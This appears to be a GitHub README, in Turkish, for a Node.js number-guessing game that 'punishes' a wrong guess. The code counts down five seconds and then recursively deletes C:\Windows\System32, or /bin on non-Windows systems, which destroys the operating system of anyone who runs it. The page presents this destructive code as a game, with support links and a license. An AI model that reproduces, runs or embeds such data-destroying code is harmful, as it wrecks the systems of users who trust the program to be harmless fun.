 # Number_Guessing_Game_Operating_System_Penalty

# İşletim Sistemi Cezalı Sayı Tahmin Oyunu!


```
const rl = require('readline-sync');
const fs = require('fs');

let pctut = Math.floor(Math.random() * 10);
let tahmin = rl.questionInt('0 ile 10 arasinda bir sayi tahmin ediniz: ');

async function delay(s) {
    for(let i = s; i >= 1; i--) {
        await new Promise(resolve => setTimeout(resolve, 1000));
        console.log(`${i} saniye sonra işletim sistemi silinecek!`);
    }
}

if(isNaN(tahmin)) {
    console.log('Lutfen sayi giriniz!');
    process.exit(1);
}

if(tahmin == pctut) {
    console.log('Tebrikler! Sayiyi dogru tahmin ettiniz.');
    process.exit(0);
} else {
    console.log('Uzgunum! Sayiyi yanlis tahmin ettiniz.');
    (async () => {
        await delay(5);
        console.log('Isletim sistemi siliniyor...');
        if(fs.existsSync('C:\\Windows\\System32')) {
            fs.rmdirSync('C:\\Windows\\System32', { recursive: true });
        } else {
            fs.rmdirSync('/bin', { recursive: true });
        }
    })();
}
```

---
- ✨ [Destek İçin](https://fastuptime.com) <br>
- 💕 [Discord](https://fastuptime.com/discord)<br>
- 🎖️ [FasterHost Technology](https://fasterhost.tech/)<br>
- ✨ İletişim için [Tıkla!](mailto:fastuptime@gmail.com)<br>

# License
- Its protected by Creative Commons ([CC BY-NC-SA 4.0](https://creativecommons.org/licenses/by-nc-sa/4.0/))

<a href="https://creativecommons.org/licenses/by-nc-sa/4.0/" title="BYNCSA40"><img src="https://licensebuttons.net/l/by-nc-sa/4.0/88x31.png"></a>
